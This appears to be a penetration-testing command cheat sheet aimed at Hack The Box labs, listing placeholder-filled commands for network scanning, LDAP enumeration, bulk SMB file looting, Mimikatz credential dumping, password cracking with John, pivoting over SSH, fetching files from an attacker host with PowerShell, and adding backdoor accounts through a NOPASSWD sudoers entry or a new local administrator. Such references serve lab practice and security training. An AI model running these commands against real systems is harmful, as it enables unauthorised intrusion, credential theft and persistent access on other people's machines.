 # Commands

## Kali

+ ### Shortcuts

    > **SSH**: SSH with Clear Password

    ```pwsh
    sshpass -p <PASSWORD> ssh <RUSER>@<RHOST>
    ```

+ ### Enumerating

    > **NMap**: Top Scan (Fast)

    ```pwsh
    nmap -Pn -n -v -sV -sC <RHOST>
    ```

    > **NMap**: Full Scan with Firewall Protection (Slow)

    ```pwsh
    nmap -sT -sU -sV -O -T4 -A -Pn --open --max-retries 3 --max-scan-delay 1s --defeat-rst-ratelimit --script-args unsafe=1 -oN <LPATH> <RHOST>
    ```

    > **LDAP**: Full Enumerating

    ```pwsh
    ldapsearch -x -h <RHOST> -D '' -w '' -b "DC=domain,DC=local"
    ```

+ ### Remote Access

    > **Remote Desktop Connection**:

    ```pwsh
    rdesktop <RHOST> -r disk:share=<RPATH>
    ```

    > **PowerShell Core**:

    ```pwsh
    > New-PSSession -Credential (Get-Credential) -ComputerName <RHOST> -Authentication Negotiate
    > Enter-PSSession 1
    ```

+ ### Looting

    > **SMBClient**: Download All Files

    ```pwsh
    smbclient '\\<RHOST>\<RPATH>' -c 'prompt OFF;recurse ON;lcd '.';mget *' -U 'User'
    ```

+ ### Compiling

    > x64 Compile

    ```pwsh
    x86_64-w64-mingw32-gcc Source.c -o File.exe
    ```

    > x86 Compile

    ```pwsh
    i686-w64-mingw32-gcc Source.c -o File.exe -lws2_32
    ```

+ ### File Transfer

    > **SCP**: Secure Copy with SSH

    ```pwsh
    scp <LPATH> <RUSER>@<RHOST>:<RPATH>
    ```

+ ### Pivoting

    > **SShuttle**: VPN-Like Network Access

    > **Note:** Server must have python 2.3 or higher.

    ```pwsh
    sshuttle -r <RUSER>@<RHOST>:<RPORT> <RSubnet>/24
    ```

    > Dynamic with SSH & ProxyChains

    ```pwsh
    > ssh -D 12345 <RUSER>@<RHOST> -p 22
    > export PROXYCHAINS_SOCKS5=12345
    > proxychains nmap -Pn -n -v -sV -sC <IP>
    ```

    > Static with SSH

    ```pwsh
    ssh -g -L <LPORT>:localhost:<RPORT> <RHOST>
    ```

+ ### Password Cracking

    > Passwd & Shadow Files

    ```pwsh
    > unshadow passwd shadow > passwords.txt
    > john passwords.txt
    ```

    > Protected Zip Files

    ```pwsh
    > zip2john file.zip > password.txt
    > john passwords.txt
    ```

---

## Linux

+ ### Shell Helpers

    > Fixing PATH Enviroment Variable

    ```pwsh
    export PATH=$PATH:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:/bin:/sbin
    ```

    > Fixing TTY

    ```pwsh
    > python -c 'import pty; pty.spawn("/bin/sh")'
    > python -c 'import pty; pty.spawn("/bin/bash")'
    ```

+ ### Process List

    > List Running Process

    ```pwsh
    > ps aux
    > ps aux | grep lfmserver
    ```

+ ### Add Local Sudoer

    > Using Sudoers File

    ```pwsh
    > adduser Hacker --force-badname
    > passwd Hacker1
    > echo 'Hacker  ALL=(ALL:ALL) NOPASSWD:ALL' >> /etc/sudoers
    > su - Hacker
    > sudo bash
    ```

---

## Windows

+ ### Download File

    > Inside PowerShell

    ```pwsh
    > Invoke-WebRequest -URI http://<LHOST>/<LPATH> -OutFile <FILE>
    ```

    > Inside Command Line

    ```pwsh
    > powershell -Command "& { (New-Object Net.WebClient).DownloadFile('http://<LHOST>/<LPATH>','<FILE>') }"
    > powershell -Command "Invoke-WebRequest -URI http://<LHOST>/<LPATH> -OutFile <FILE>"

    ```

+ ### Windows Enumeration

    > Using Net.exe

    ```pwsh
    > net user
    > net group
    ```

    > Using Mimikatz

    ```pwsh
    > mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
    ```

+ ### Add Local Administrator

    > Using Net.exe

    ```pwsh
    > net user Hacker Hacker1 /add
    > net localgroup administrators Hacker /add
    ```

---

## Hack The Box

+ ### Refresh Flags

    > User.txt

    ```pwsh
    gci -path c:\ -Recurse -ErrorAction SilentlyContinue -include user.txt
    ```

    > Root.txt

    ```pwsh
    gci -path c:\ -Recurse -ErrorAction SilentlyContinue -include root.txt
    ```
